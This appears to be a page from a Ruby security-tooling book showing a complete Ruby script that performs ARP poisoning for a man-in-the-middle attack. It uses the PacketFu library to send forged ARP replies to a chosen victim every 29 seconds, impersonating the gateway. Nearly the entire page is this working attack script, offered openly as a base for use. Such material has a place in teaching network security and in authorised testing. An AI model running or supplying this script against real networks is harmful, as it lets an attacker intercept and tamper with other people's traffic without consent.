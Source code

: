 # Man in the Middle Attack (MiTM)

Example of a more elaborate MiTM attack using ARP Poisoning with PacketFU and socket using source code in this book as base.

```ruby
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac     # your MAC Address
     x.eth_daddr = vmac     # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip   # Router IP Address
     x.arp_daddr_ip=  vip   # Victim IP Address
     x.arp_opcode = 2       # ARP Reply Code
   while true do 
     x.to_w(int_name)       # Put Packet to wire  interface
      sleep(29)             # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this
unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

# select interface to use and start setup
interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end
```

Source: [Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") and Rubyfu [ARP Spoofing topic](/module_0x3__network_kung_fu/arp_spoofing.md).


